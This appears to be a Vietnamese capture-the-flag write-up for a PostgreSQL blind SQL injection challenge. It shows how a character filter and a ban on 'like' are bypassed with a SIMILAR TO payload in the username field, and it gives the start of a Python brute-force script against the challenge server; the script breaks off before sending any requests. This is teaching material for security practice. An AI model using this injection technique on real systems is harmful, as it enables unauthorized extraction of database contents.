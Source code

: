 Ý tưởng của tôi là chèn payload vào `username` để kiểm tra từng ký của flag. Tuy nhiên, `username` chỉ được phép chứa các ký tự sau: 

```
allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")
```
tương đương với `{'9', '3', 'b', 'R', '4', 'i', 'm', 'P', 't', 'w', 'E', 'k', 'o', 'n', 'x', 'g', 'Z', 'A', 'c', 'u', 's', 'J', 'Q', 'T', 'H', ' ', 'f', 'e', 'M', 'D', 'K', '7', 'N', 'q', 'I', 'O', 'W', 'Y', 'j', '2', '8', 'S', 'a', 'l', 'z', '6', 'h', 'B', 'X', 'L', 'V', 'r', 'd', '1', '0', '5', 'p', 'G', '_', 'y', '{', 'C', 'U', 'v', "'", 'F', '}'}`

Tham khảo bài viết sau: <kbd><a href="https://stackoverflow.com/questions/12452395/difference-between-like-and-in-postgres">https://stackoverflow.com/questions/12452395/difference-between-like-and-in-postgres </a></kbd>

Payload sẽ trông như sau: `SELECT * FROM penguins WHERE name LIKE 'l%';` nhưng `like` bị cấm sử dụng `forbidden_strs = ["like"]` vì vậy ta có thể sử dụng `SIMILAR TO`

Trong PostgreSQL, điều kiện SIMILAR TO được sử dụng để thực hiện so sánh chuỗi sử dụng các biểu thức chính quy (regular expressions). Cú pháp của SIMILAR TO giống với LIKE, nhưng nó sử dụng cú pháp biểu thức chính quy thay vì các mẫu đơn giản.

![image](https://hackmd.io/_uploads/SJ8sh5e3p.png)

Tham khảo tại đây: <kbd><a href="https://www.postgresql.org/docs/current/functions-matching.html#FUNCTIONS-SIMILARTO-REGEXP">https://www.postgresql.org/docs/current/functions-matching.html#FUNCTIONS-SIMILARTO-REGEXP </a></kbd>

Chúng ta có thể thực hiện leak flag bằng cách:
```js
username=' OR name SIMILAR TO 'la___________________________________________
```

Ta sẽ thay đổi từng ký tự `_` bằng từng chữ cái một một cách tuần tự cho tới khi tìm được full flag. Nếu ký tự tiếp theo nhập đúng, server sẽ trả về `We found a penguin!!!!!`. Ngược lại, `No penguins sadg`.

Hãy nhìn và so sánh 2 bức ảnh này.

![image](https://hackmd.io/_uploads/Bks70ql26.png)

![image](https://hackmd.io/_uploads/B1Mi09x3T.png)

## Script
```py
import requests

url = "http://penguin.chall.lac.tf/submit"

base_username = "' OR name SIMILAR TO 'la___________________________________________"
flag = ""

for i in range(len(base_username)):
    if base_username[i] == '_':
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-=+[]{}_|;:'\",.<>/?`~ ":
            username = base_username[:i] + char + base_username[i+1:]
            headers = {
                'Host': 'penguin.chall.lac.tf',
                'Upgrade-Insecure-Requests': '1',
                'Origin': 'http://penguin.chall.lac.tf',
                'Content-Type': 'application/x-www-form-urlencoded',
                'Referer': 'http://penguin.chall.lac.tf/',
                'Accept-Encoding': 'gzip, deflate, br',
                'Accept-Language': 'en-US,en;q=0.9',
                'Connection': 'close',
            }
```